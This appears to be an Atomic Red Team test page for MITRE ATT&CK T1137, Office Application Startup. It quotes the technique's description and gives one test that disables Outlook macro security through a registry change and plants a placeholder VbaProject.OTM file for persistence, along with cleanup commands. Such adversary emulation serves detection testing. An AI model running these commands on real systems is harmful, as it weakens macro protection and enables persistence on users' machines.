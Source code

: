 # T1137 - Office Application Startup
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1137)
<blockquote>Adversaries may leverage Microsoft Office-based applications for persistence between startups. Microsoft Office is a fairly common application suite on Windows-based operating systems within an enterprise network. There are multiple mechanisms that can be used with Office for persistence when an Office-based application is started; this can include the use of Office Template Macros and add-ins.

A variety of features have been discovered in Outlook that can be abused to obtain persistence, such as Outlook rules, forms, and Home Page.(Citation: SensePost Ruler GitHub) These persistence mechanisms can work within Outlook or be used through Office 365.(Citation: TechNet O365 Outlook Rules)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Office Application Startup - Outlook as a C2](#atomic-test-1---office-application-startup---outlook-as-a-c2)


<br/>

## Atomic Test #1 - Office Application Startup - Outlook as a C2
As outlined in MDSEC's Blog post https://www.mdsec.co.uk/2020/11/a-fresh-outlook-on-mail-based-persistence/ 
it is possible to use Outlook Macro as a way to achieve persistance and execute arbitrary commands. This transform Outlook into a C2.
Too achieve this two things must happened on the syste
- The macro security registry value must be set to '4'
- A file called VbaProject.OTM must be created in the Outlook Folder.

**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`! 


```cmd
reg add "HKEY_CURRENT_USER\Software\Microsoft\Office\16.0\Outlook\Security" /t REG_DWORD /d 4 /f
mkdir  %APPDATA%\Microsoft\Outlook\ >nul 2>&1
echo "Atomic Red Team TEST" > %APPDATA%\Microsoft\Outlook\VbaProject.OTM
```

#### Cleanup Commands:
```cmd
reg delete "HKEY_CURRENT_USER\Software\Microsoft\Office\16.0\Outlook\Security" /f
del %APPDATA%\Microsoft\Outlook\VbaProject.OTM
```





<br/>
